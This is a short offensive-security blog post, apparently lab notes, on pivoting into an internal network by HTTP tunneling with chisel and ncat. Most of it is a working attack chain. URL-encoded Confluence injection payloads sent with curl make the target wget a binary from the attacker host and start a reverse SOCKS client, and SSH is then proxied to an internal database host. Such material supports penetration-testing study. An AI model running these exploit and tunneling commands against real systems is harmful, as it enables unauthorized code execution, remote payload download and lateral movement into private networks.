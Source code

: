 ```yaml
---
layout: post
title: HTTP Tunneling
titledate: 09/24/23
tags: ["infosec", "info_gathering", "offsec", "tunnel", "chisel", "ncat"]
---
```


#### chisel

the chisel tool will create a http tunnel that encapsulates an ssh session

chisel needs a client and server connection, so we need to run chisel on our target

    $ sudo cp $(which chisel) .

    $ python -m http.server 80

now we need to grab chisel on the target, and for this attack we leverage the confluence vulnerability to execute a bash wget command to retrieve our chisel binary

    $ curl http://192.168.50.50:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.1.1/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

we start the server on our attacking machine

    $ chisel server --port 8080 --reverse

on our attacking machine we dump the tcp traffic on the interface that chisel will be communicating on

    $ sudo tcpdump -nvvvXi tun0 tcp port 8080

once our target1 has the chisel binary we can execute the client , from a web shell, cmd shell etc

    /tmp/chisel client 192.168.1.1:8080 R:socks > /dev/null 2>&1 & 

we can also start the client using the verified confluence injection payload we used to retrieve the binary, but now lets us execute a command

    $ curl http://192.168.50.50:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.1.1:8080%20R:socks%27%29.start%28%29%22%29%7D/

our chisel server should now have an inbound connection from the client

we can use ncat to pass a proxy command to ssh's proxycommand 

    $ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.50

now we've established an ssh connection to a pg db machine on an internal network via chisel reverse socks proxy tunneled through a reverse http tunnel